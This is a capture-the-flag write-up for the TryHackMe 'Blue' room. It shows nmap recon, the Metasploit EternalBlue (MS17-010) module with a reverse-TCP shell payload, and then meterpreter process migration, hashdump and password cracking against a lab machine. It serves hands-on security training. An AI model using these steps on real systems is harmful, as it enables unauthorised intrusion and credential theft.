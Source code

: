 <p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blue/Blue_Cover.png" alt="Blue Logo">
</p>

# Blue

This guide contains the answer and steps necessary to get to them for the [Blue]([https://tryhackme.com/room/linuxfundamentalspart1](https://tryhackme.com/room/blue)) room.

## Table of contents

- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)
- [Cracking](#cracking)
- [Find flags!](#find-flags)

### Recon

In this part of the challenge we will find out more information about our target machine and find a way inside.

*Scan the machine.*

2. How many ports are open with a port number under 1000?

   To find the open ports we can use the following command (keep in mind we only need to scan the first 1000 ports):
   
   ```cmd
   nmap -sV -p-1000 10.10.91.75
   ```
   
   ![Nmap Scan](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blue/Recon_Nmap_Scan.png)

   ><details><summary>Click for answer</summary>3</details>

3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

   We need some more information about the running services and `-sV` didn't give us enough. We can use the `-A` argument to run some additional scripts.
   
   Looking up the OS version for any exploits we can find something we can use.
   
   ![Vulnerability](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blue/Recon_Vulnerability.png)

   ><details><summary>Click for answer</summary>MS17-010</details>

### Gain Access

In this part of the challenge we will use Metaspoit to exploit the vulnerability we found in the previous task.

*Start Metasploit*

2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

   We can search for any modules we can use within Metasploit.
   
   ```cmd
   search ms17-010
   ```
   
   ![MSF Module](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blue/Access_MSF_Module.png)

   ><details><summary>Click for answer</summary>exploit/windows/smb/ms17_010_eternalblue</details>

3. Show options and set the one required value. What is the name of this value? (All caps for submission)

   We now need to select this module and set any necessary options.
   
   ```cmd
   use exploit/windows/smb/ms17_010_eternalblue
   
   options
   
   set rhosts 10.10.91.75
   ```
   
   ![MSF Options](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blue/Access_MSF_Options.png)

   ><details><summary>Click for answer</summary>rhosts</details>

*Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:*

```cmd
set payload windows/x64/shell/reverse_tcp
```

*With that done, run the exploit!*

We can do that by using `run` or `exploit`.

![MSF Exploit](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blue/Access_MSF_Exploit.png)

*Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.*

I had to restart the machine, as it didn't work the first time. In the end, though, I got a shell. And unlike the next few steps, the shell already appears to run as `NT ATUHORITY` using `whoami`.

![MSF Shell](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blue/Access_MSF_Shell.png)

### Escalate




1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 



   ><details><summary>Click for answer</summary></details>

2. Select this (use MODULE_PATH). Show options, what option are we required to change?



   ><details><summary>Click for answer</summary></details>

Set the required option, you may need to list all of the sessions to find your target here. 

Run! If this doesn't work, try completing the exploit from the previous task once more.

Once the meterpreter shell conversion completes, select that session for use.

Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 



### Cracking




1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

   

   ><details><summary>Click for answer</summary></details>

2. Copy this password hash to a file and research how to crack it. What is the cracked password?

   

   ><details><summary>Click for answer</summary></details>

### Find flags!



1. Flag1? This flag can be found at the system root. 

   

   ><details><summary>Click for answer</summary></details>

2. Flag2? This flag can be found at the location where passwords are stored within Windows.

   

   ><details><summary>Click for answer</summary></details>

3. flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

   

   ><details><summary>Click for answer</summary></details>
